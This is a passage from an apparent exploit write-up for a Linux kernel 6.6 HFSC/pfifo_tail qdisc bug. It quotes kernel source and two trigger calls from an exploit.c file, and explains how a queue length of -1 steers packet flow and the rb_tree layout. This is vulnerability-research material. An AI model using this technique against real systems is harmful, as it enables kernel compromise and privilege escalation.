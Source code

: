 ```c
					update_ed(cl, len);
				else
					init_ed(cl, len);
			}
		}
		sch_tree_unlock(sch);

		return 0;
	}
	/* Writeup note: Deleted code for clarity */
}
```

- `cl` is class_A created in step5.
- `cl->qdisc` is Qdisc_B.
- Qdisc_B->q.qlen == -1 	=> 	cl->qdisc->q.qlen != 0
- We reach `update_ed()` call as describe in idea.

Step13: Trigger Flow1 described in idea [[exploit.c#L1016]](../exploit/lts-6.6.64/exploit.c#L1016)
```c
trigger_qdisc_enqueue(packet_socket, ifindex);
trigger_qdisc_enqueue(packet_socket, ifindex);
```
- Because Qdisc_C has `sch->limit == 0xFFFFFFFF`, the packet enqueue process will success (return `NET_XMIT_SUCCESS`).
- Packet flow of first `trigger_qdisc_enqueue()` call: `hfsc_enqueue(Qdisc_A)` -> `hfsc_enqueue(Qdisc_B)` -> `pfifo_tail_enqueue(Qdisc_C)`
- After first `trigger_qdisc_enqueue()` call, we have the following things:
	1. Qdisc_A->q.qlen == -1.
	2. Qdisc_B->q.qlen == 0.
	3. Qdisc_C->q.qlen == 1.
- Because `->enqueue()` return `NET_XMIT_SUCCESS`, `->dequeue()` will be called.
- Because `Qdisc_B->q.qlen == 0`, when dequeue flow go from `hfsc_dequeue(Qdisc_A) -> hfsc_dequeue(Qdisc_B)`, dequeue flow stop. This ensure we can keep `rb_tree` layout as expected.
- The second `trigger_qdisc_enqueue()` call will trigger Flow1.


- Packet flow of second `trigger_qdisc_enqueue()` call: `hfsc_enqueue(Qdisc_A)` -> `hfsc_enqueue(Qdisc_B)` -> `pfifo_tail_enqueue(Qdisc_C)`
- Take a look at `hfsc_enqueue()` kernel function:
```c
static int
hfsc_enqueue(struct sk_buff *skb, struct Qdisc *sch, struct sk_buff **to_free)
{
	unsigned int len = qdisc_pkt_len(skb);
	struct hfsc_class *cl;
	int err;
	bool first;

	cl = hfsc_classify(skb, sch, &err);
	/* Writeup note: Deleted code for clarity */

	first = !cl->qdisc->q.qlen;
	err = qdisc_enqueue(skb, cl->qdisc, to_free);
	/* Writeup note: Deleted code for clarity */

	if (first) {
		if (cl->cl_flags & HFSC_RSC)
			init_ed(cl, len);
		/* Writeup note: Deleted code for clarity */
	}

	sch->qstats.backlog += len;
	sch->q.qlen++;

```